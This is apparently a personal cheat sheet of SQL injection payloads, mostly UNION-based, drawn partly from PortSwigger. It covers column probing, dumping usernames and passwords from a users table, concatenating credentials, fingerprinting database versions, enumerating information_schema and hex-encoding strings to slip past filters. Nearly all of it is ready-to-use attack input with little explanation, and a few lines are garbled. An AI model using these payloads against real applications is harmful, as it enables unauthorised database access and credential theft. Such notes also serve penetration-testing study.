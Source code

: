 ```bash
' UNION SELECT NULL/*
etc.

# Database-specific syntax
' UNION SELECT NULL FROM DUAL-- 
https://portswigger.net/web-security/sql-injection/cheat-sheet
'
# Finding columns with a useful data type
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

# Using a SQL injection UNION attack to retrieve interesting data
' UNION SELECT username, password FROM users--
'
# Retrieving multiple values within a single column
# Oracle
' UNION SELECT username || '~' || password FROM users--  
https://portswigger.net/web-security/sql-injection/cheat-sheet
'
# Examining the database in SQL injection attacks
    Syntax for string concatenation.
    Comments.
    Batched (or stacked) queries.
    Platform-specific APIs.
    Error messages.
Database type 	Query
Microsoft, MySQL 	SELECT @@version
Oracle 	SELECT * FROM v$version
PostgreSQL 	SELECT version() 

# Listing the contents of the database
SELECT * FROM information_schema.tables
SELECT schema_name FROM information_schema.schemata
SELECT table_name from information_schema.tables where table_schema='mydatabase'
SELECT column_name from information_schema.columns where table_schema='mydatabase' and table_name='mytable'
SELECT user,pass from mydatabase.mytable
SELECT * FROM information_schema.columns WHERE table_name = 'Users'


'UNION SELECT NULL,GROUP_CONCAT(USER,':',PASS)
'UNION SELECT NULL,GROUP_CONCAT(USER,'0x3a',PASS)
group_concat(username,':',password SEPARATOR '<br>')
CONCAT(USER,':',PASS)
USER||':'||PASS
# If some strings are not allowed, use hex to encode them
echo admin | tr -d '\n' | xxd ps
WHERE USER="0x..."
USE DB.TABLE (SUCH AS MYSQL.USERS) IN CASE OTHER DB IS CURRENTLY IN USE
```
{% endcode %}
